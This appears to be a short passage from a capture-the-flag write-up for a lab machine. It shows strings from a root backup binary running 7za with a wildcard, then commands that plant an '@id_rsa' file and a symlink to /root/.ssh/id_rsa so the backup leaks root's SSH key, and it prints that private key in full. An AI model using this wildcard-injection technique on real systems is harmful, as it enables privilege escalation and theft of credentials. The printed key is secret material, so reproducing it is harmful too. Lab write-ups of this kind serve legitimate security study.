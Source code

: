 ```bash
_ITM_registerTMCloneTable
PTE1
u+UH
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
```

Following this [HackTrick](https://www.google.com/search?q=wildcard+hacktrics+7z&client=firefox-b-e&sca_esv=dd2f1766d71666ee&channel=entpr&ei=QIMOaNyBKojr7_UP07D_uAY&ved=0ahUKEwjcoYeS9_iMAxWI9bsIHVPYH2cQ4dUDCBA&uact=5&oq=wildcard+hacktrics+7z&gs_lp=Egxnd3Mtd2l6LXNlcnAiFXdpbGRjYXJkIGhhY2t0cmljcyA3ejIHECEYoAEYCjIHECEYoAEYCjIHECEYoAEYCkjRHlCxBligHXABeAGQAQCYAYsBoAHZAqoBAzAuM7gBA8gBAPgBAZgCBKAC8gLCAgoQABiwAxjWBBhHwgIJEAAYxwMYDRgewgIIEAAYgAQYogTCAgUQABjvBZgDAOIDBRIBMSBAiAYBkAYIkgcDMS4zoAe-CrIHAzAuM7gH6QI&sclient=gws-wiz-serp) and then running the binary with option 1 we can get the RSA key of the root user or read any file in the system.


```bash
xander@usage:~$ cd /var/www/html
xander@usage:/var/www/html$ touch @id_rsa
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
```

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----

```